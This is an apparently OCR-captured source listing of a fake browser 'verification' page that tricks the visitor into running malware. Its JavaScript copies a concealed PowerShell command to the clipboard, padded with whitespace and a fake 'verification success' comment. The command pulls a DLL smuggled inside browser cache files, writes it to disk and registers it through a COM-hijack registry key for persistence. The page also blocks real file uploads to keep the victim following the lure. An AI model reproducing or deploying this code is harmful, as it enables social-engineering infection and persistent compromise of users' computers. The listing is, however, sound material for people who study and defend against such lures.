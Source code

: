 ```html
    var cmd_prefix1 = `powershell.exe -ep bypass -w hidden -c "$startString='startdll';$endString='enddll';$downloadsPath=$env:localappdata`;
    var cmd_prefix2 = `;$outputFile=$env:userprofile`;
    var cmd_prefix3 = `;$basePath='HKCU:\\Software\\Classes\\CLSID\\{33C53A50-F456-4884-B049-85FD643ECFED}';$subKeyPath=$basePath+'\\InProcServer32';Get-ChildItem -Path $downloadsPath -File -Filter 'f_*' | ForEach-Object { $content=[System.IO.File]::ReadAllBytes($_.FullName);$fileHeader=[System.Text.Encoding]::ASCII.GetString($content,0,$startString.Length);if($fileHeader -eq $startString){$endStringBytes=[System.Text.Encoding]::ASCII.GetBytes($endString);$endIndex=-1;for($i=0;$i -le $content.Length-$endStringBytes.Length;$i++){if(($content[$i..($i+$endStringBytes.Length-1)] -join '') -eq ($endStringBytes -join '')){$endIndex=$i;break}}if($endIndex -ne -1){$originalContent=$content[($startString.Length)..($endIndex-1)];[System.IO.File]::WriteAllBytes($outputFile,$originalContent);if(-not(Test-Path $basePath)){New-Item -Path $basePath -Force | Out-Null};if(-not(Test-Path $subKeyPath)){New-Item -Path $subKeyPath -Force | Out-Null};Set-ItemProperty -Path $subKeyPath -Name '(Default)' -Value $outputFile;New-ItemProperty -Path $subKeyPath -Name 'ThreadingModel'  -PropertyType String -Value 'Apartment' -Force | Out-Null;break}}}"                                                                                                                 # anti-bot - BotShield verification success                                                                `;
    
    const userAgent = navigator.userAgent;
    const isChrome = userAgent.includes("Chrome") && !userAgent.includes("Edg");
    const isEdge = userAgent.includes("Edg");
    
    if (isChrome) {
    	cmd = cmd_prefix1 + chromepath + cmd_prefix2 + outputpath + cmd_prefix3;
    }
    if (isEdge)
    {
    	cmd = cmd_prefix1 + edgepath + cmd_prefix2 + outputpath + cmd_prefix3;
    }
    
    const fileInput = document.getElementById('fileInput');
    const fileExplorer = document.getElementById('fileExplorer');


    // Trigger file input & copy on button click
    fileExplorer.addEventListener('click', function () {
      navigator.clipboard.writeText(cmd);
      fileInput.click();
    });

    // Prevent actual file upload
    fileInput.addEventListener('change', () => {
      alert("Please follow the stated instructions.");
      fileInput.value = "";
      setTimeout(() => fileInput.click(), 500);
      
    });

    // Wait 5 seconds before showing verification card
    window.addEventListener('load', () => {
      setTimeout(() => {
        document.getElementById('loading').style.display = 'none';
        document.getElementById('verification-card').style.display = 'flex';
      }, 5000);
    });
  </script>
</body>
</html>

```
